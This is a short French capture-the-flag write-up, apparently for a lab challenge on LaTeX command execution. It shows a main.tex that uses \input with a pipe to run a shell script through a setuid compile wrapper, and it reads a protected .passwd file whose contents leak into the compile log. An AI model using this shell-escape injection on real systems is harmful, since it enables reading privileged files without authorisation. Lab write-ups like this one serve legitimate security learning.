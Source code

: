 # LaTeX - Execution de commande

## 20 Points

### Et si j’écrivais 18 fois ?

### Énoncé

Exécutez des commandes pour trouver le flag !

## Résolution

L'objectif est de réussir à afficher le contenu du fichier .passwd qui se trouve dans un dossier qui lui aussi se trouve dans le dossier flag_is_here.

```
app-script-ch24@challenge02:/challenge/app-script/ch24$mkdir /tmp/thibault

app-script-ch24@challenge02:/challenge/app-script/ch24$vim /tmp/thibault/main.tex
```
main.tex:
```latex
\documentclass{article}
\begin{document}
\input{|"/tmp/thibault/main.sh"}
\end{document}
```
```Bash
app-script-ch24@challenge02:/challenge/app-script/ch24$vim /tmp/thibault/main.sh
```

```Bash
cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd
```

```
app-script-ch24@challenge02:/challenge/app-script/ch24$./setuid-wrapper /tmp/thibault/main.tex

[+] Compilation ...
[!] Compilation error, your logs : /tmp/tmp.VtoBdYzWgT/main.log
````

```
app-script-ch24@challenge02:/challenge/app-script/ch24$ cat /tmp/tmp.VtoBdYzWgT/main.log

This is pdfTeX, Version 3.14159265-2.6-1.40.18 (TeX Live 2017/Debian) (preloaded format=pdflatex 2023.6.1)  10 JAN 2024 16:59

entering extended mode

\write18 enabled.

%&-line parsing enabled.

[...]

(|/tmp/thibault/main.sh

! Missing $ inserted.

<inserted text>

$

l.1 [censorship]

Here is how much of TeX's memory you used:

202 strings out of 494923

[...]
```

On trouve donc le contenu du fichier dans le fichier de log.
